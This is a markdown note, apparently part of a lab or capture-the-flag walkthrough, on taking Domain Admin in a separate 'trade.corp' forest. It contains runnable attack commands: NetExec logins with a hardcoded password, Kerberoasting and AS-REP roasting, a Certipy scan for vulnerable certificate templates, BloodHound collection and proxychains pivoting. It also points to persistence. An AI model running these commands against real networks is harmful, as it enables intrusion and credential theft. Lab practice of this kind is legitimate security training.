

# 💰 10 — trade.corp (separate forest) → Domain Admin

> [!abstract] Summary
> **Start:** network route to `neimoidia` (10.10.30.10).
> **Goal:** DA in `trade.corp`.
> **Why it works:** like rebel, trade is an isolated forest (cross-forest trust likely missing). Standalone compromise over the routed network.

> [!warning] Verify the trust
> ```cypher
> MATCH p=(:Domain)-[:TrustedBy]->(:Domain {name:'TRADE.CORP'}) RETURN p
> ```



## Step 1 — Reach

```bash
nxc smb 10.10.30.10
nxc smb 10.10.30.10 -u Administrator -p 'SithLord123!' -d trade.corp
```

> [!note] If 10.10.30.0/16 isn't directly routable
> Pivot a SOCKS proxy through any compromised dual-homed box (ligolo-ng / chisel) then proxychains your tools:
> ```bash
> proxychains nxc smb 10.10.30.10 -u Administrator -p 'SithLord123!'
> ```

## Step 2 — Enumerate trade's own surface

```bash
nxc ldap 10.10.30.10 -u Administrator -p 'SithLord123!' --kerberoasting kr.txt --asreproast ar.txt
certipy find -u Administrator@trade.corp -p 'SithLord123!' -dc-ip 10.10.30.10 -vulnerable -stdout
# BloodHound collection for trade.corp (see folder index)
uvx --from bloodhound-ce bloodhound-ce-python -u Administrator -p 'SithLord123!' \
  -d trade.corp -dc trade.corp -ns 10.10.30.10 -c All --zip
```

## Step 3 — Escalate

Same techniques as empire ([[02-kerberoast-to-da]], [[04-acl-sheev-palpatine-dcsync]], [[05-adcs-esc1-esc8]], [[06-coerce-relay]]) aimed at `neimoidia`.

> [!check] Outcome
> DA in trade.corp → all four domains owned. **Lock in:** [[12-persistence]].
